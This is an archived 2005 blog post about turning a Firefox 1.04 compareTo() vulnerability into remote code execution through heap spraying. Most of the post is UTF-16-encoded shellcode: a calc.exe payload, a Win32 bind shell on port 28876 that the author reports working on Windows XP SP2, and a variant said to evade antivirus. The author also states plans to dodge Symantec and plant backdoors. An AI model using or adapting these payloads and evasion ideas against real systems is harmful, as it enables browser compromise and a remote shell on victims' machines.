 ```yaml
---
id: 12
title: Fun w/ FireFox compareTo() Remote Execution
date: 2005-12-15T21:33:00+00:00
author: Devin Ertel
layout: post
guid: http://www.infointox.net/?p=12
permalink: /?p=12
blogger_blog:
  - informationintoxication.blogspot.com
blogger_author:
  - Devinhttp://www.blogger.com/profile/15793900111446118223noreply@blogger.com
blogger_permalink:
  - /2005/12/fun-w-firefox-compareto-remote_15.html
categories:
  - Uncategorized
tags:
  - Buffer Overflow
---
```

I love firefox, but just could not resist this.

A vulnerbility was found in Mozilla Firefox <= 1.04 when using the
  
compareTo() function.
  
<http://www.milw0rm.com/id.php?id=1369>

You can find older versions of FireFox for testing here.
  
<http://ftp.mozilla.org/pub/mozilla.org/firefox/releases/>

The exploit payload contained a return(Just would close the browser).
  
And what fun is that?

// Payload &#8211; Just return..
  
var payLoadCode=unescape(&#8220;%u9090%u90C3&#8221;);

So I thought lets actually execute some abritrary code.

The thing that makes it hard is we cannot just use normal shellcode. We
  
have to convert it to UTF-16 so the browser can execute it. I suppose
  
UTF-8 would work also.

For Example:

\x29 would be %u785c%u3932

So here we go, create the shellcode and encode it to UTF-16.
  
How about something simple like calc.exe.

I found a shellcode encoder. I have had mixed results but you can find it here.
  
<http://www.milw0rm.com/id.php?id=656>

// Payload &#8211; Calc.exe
  
var payLoadCode=unescape(
  
&#8220;%u5053%u5053%u9090%uC929%uE983%uD9DB%uD9EE%u2474&#8221; +
  
&#8220;%u5BF4%u7381%uA913%u4A67%u83CC%uFCEB%uF4E2%u8F55&#8221; +
  
&#8220;%uCC0C%u67A9%u89C1%uEC95%uC936%u66D1%u47A5%u7FE6&#8221; +
  
&#8220;%u93C1%u6689%u2FA1%u2E87%uF8C1%u6622%uFDA4%uFE69&#8221; +
  
&#8220;%u48E6%u1369%u0D4D%u6A63%u0E4B%u9342%u9871%u638D&#8221; +
  
&#8220;%u2F3F%u3822%uCD6E%u0142%uC0C1%uECE2%uD015%u8CA8&#8221; +
  
&#8220;%uD0C1%u6622%u45A1%u43F5%u0F4E%uA798%u472E%u57E9&#8221; +
  
&#8220;%u0CCF%u68D1%u8CC1%uECA5%uD03A%uEC04%uC422%u6C40&#8221; +
  
&#8220;%uCC4A%uECA9%uF80A%u1BAC%uCC4A%uECA9%uF022%u56F6&#8221; +
  
&#8220;%uACBC%u8CFF%uA447%uBFD7%uBFA8%uFFC1%u46B4%u30A7&#8243;+
  
&#8220;%u2BB5%u8941%u33B5%u0456%uA02B%u49CA%uB42F%u67CC&#8221; +
  
&#8220;%uCC4A%uD0FF&#8221;);

Loaded the page, firefox shutdown and calc.exe poped-up. We can execute!
  
(tested on WinXP SP2)

While calc.exe was funny not to useful.

Lets bind a port so we can get a shell.

I tried creating different shellcode, things such as adding a user,port
  
binding, cmd exec, and reverse shells, In both Linux and Windows. The
  
shellcode was very touchy and had mixed results after encoding to
  
UTF-16.

This win32 bind shell code did work on WinXP SP2 from SkyLined.

// Payload &#8211; Win32 bindshell (port 28876) &#8211; SkyLined
  
var payLoadCode=unescape(&#8220;%u4343%u4343%u43eb&#8221;+
  
&#8220;%u5756%u458b%u8b3c%u0554%u0178%u52ea%u528b%u0120%u31ea&#8221;+
  
&#8220;%u31c0%u41c9%u348b%u018a%u31ee%uc1ff%u13cf%u01ac%u85c7&#8243;+
  
&#8220;%u75c0%u39f6%u75df%u5aea%u5a8b%u0124%u66eb%u0c8b%u8b4b&#8221;+
  
&#8220;%u1c5a%ueb01%u048b%u018b%u5fe8%uff5e%ufce0%uc031%u8b64&#8243;+
  
&#8220;%u3040%u408b%u8b0c%u1c70%u8bad%u0868%uc031%ub866%u6c6c&#8221;+
  
&#8220;%u6850%u3233%u642e%u7768%u3273%u545f%u71bb%ue8a7%ue8fe&#8221;+
  
&#8220;%uff90%uffff%uef89%uc589%uc481%ufe70%uffff%u3154%ufec0&#8243;+
  
&#8220;%u40c4%ubb50%u7d22%u7dab%u75e8%uffff%u31ff%u50c0%u5050&#8243;+
  
&#8220;%u4050%u4050%ubb50%u55a6%u7934%u61e8%uffff%u89ff%u31c6&#8243;+
  
&#8220;%u50c0%u3550%u0102%ucc70%uccfe%u8950%u50e0%u106a%u5650&#8243;+
  
&#8220;%u81bb%u2cb4%ue8be%uff42%uffff%uc031%u5650%ud3bb%u58fa&#8221;+
  
&#8220;%ue89b%uff34%uffff%u6058%u106a%u5054%ubb56%uf347%uc656&#8243;+
  
&#8220;%u23e8%uffff%u89ff%u31c6%u53db%u2e68%u6d63%u8964%u41e1&#8243;+
  
&#8220;%udb31%u5656%u5356%u3153%ufec0%u40c4%u5350%u5353%u5353&#8243;+
  
&#8220;%u5353%u5353%u6a53%u8944%u53e0%u5353%u5453%u5350%u5353&#8243;+
  
&#8220;%u5343%u534b%u5153%u8753%ubbfd%ud021%ud005%udfe8%ufffe&#8221;+
  
&#8220;%u5bff%uc031%u5048%ubb53%ucb43%u5f8d%ucfe8%ufffe%u56ff&#8221;+
  
&#8220;%uef87%u12bb%u6d6b%ue8d0%ufec2%uffff%uc483%u615c%u89eb&#8221;);

Opened the page in FireFox and telneted to port 28876

Although, Symantec did see it as being a Trojan about one minute later.

I will look into changing the shellcode a bit in hope of not triggering Symantec.
  
Otherwise you would only have one minute after exploit to plant a backdoor.

The exploit uses a method called spraying the stack. Its actually a
  
pretty cool method by SkyLined to find a predictable address.

I will continue to work on this when time permits, If anyone is
  
interesed I would like to see other UTF-16 encoded shellcode that
  
works.

Here is a UTF-16 Payload by SkyLined that is not suppose to set off virus scanners.
  
I have not tested this one yet.

payLoadCode = unescape(\&#8221;%u4343\&#8221;+\&#8221;%u4343\&#8221;+\&#8221;%u43eb&#8221;.
  
&#8220;%u5756%u458b%u8b3c%u0554%u0178%u52ea%u528b%u0120%u31ea&#8221;.
  
&#8220;%u31c0%u41c9%u348b%u018a%u31ee%uc1ff%u13cf%u01ac%u85c7&#8221;.
  
&#8220;%u75c0%u39f6%u75df%u5aea%u5a8b%u0124%u66eb%u0c8b%u8b4b&#8221;.
  
&#8220;%u1c5a%ueb01%u048b%u018b%u5fe8%uff5e%ufce0%uc031%u8b64&#8221;.
  
&#8220;%u3040%u408b%u8b0c%u1c70%u8bad%u0868%uc031%ub866%u6c6c&#8221;.
  
&#8220;%u6850%u3233%u642e%u7768%u3273%u545f%u71bb%ue8a7%ue8fe&#8221;.
  
&#8220;%uff90%uffff%uef89%uc589%uc481%ufe70%uffff%u3154%ufec0&#8221;.
  
&#8220;%u40c4%ubb50%u7d22%u7dab%u75e8%uffff%u31ff%u50c0%u5050&#8221;.
  
&#8220;%u4050%u4050%ubb50%u55a6%u7934%u61e8%uffff%u89ff%u31c6&#8221;.
  
&#8220;%u50c0%u3550%u0102%ucc70%uccfe%u8950%u50e0%u106a%u5650&#8221;.
  
&#8220;%u81bb%u2cb4%ue8be%uff42%uffff%uc031%u5650%ud3bb%u58fa&#8221;.
  
&#8220;%ue89b%uff34%uffff%u6058%u106a%u5054%ubb56%uf347%uc656&#8221;.
  
&#8220;%u23e8%uffff%u89ff%u31c6%u53db%u2e68%u6d63%u8964%u41e1&#8221;.
  
&#8220;%udb31%u5656%u5356%u3153%ufec0%u40c4%u5350%u5353%u5353&#8221;.
  
&#8220;%u5353%u5353%u6a53%u8944%u53e0%u5353%u5453%u5350%u5353&#8221;.
  
&#8220;%u5343%u534b%u5153%u8753%ubbfd%ud021%ud005%udfe8%ufffe&#8221;.
  
&#8220;%u5bff%uc031%u5048%ubb53%ucb43%u5f8d%ucfe8%ufffe%u56ff&#8221;.
  
&#8220;%uef87%u12bb%u6d6b%ue8d0%ufec2%uffff%uc483%u615c%u89eb\&#8221;);

Below are some links to more info.

<http://archives.neohapsis.com/archives/fulldisclosure/2005-08/0104.html>
  
[http://www.edup.tudelft.nl/~bjwever/advisory\_msie\_R6025.html.php](http://www.edup.tudelft.nl/~bjwever/advisory_msie_R6025.html.php)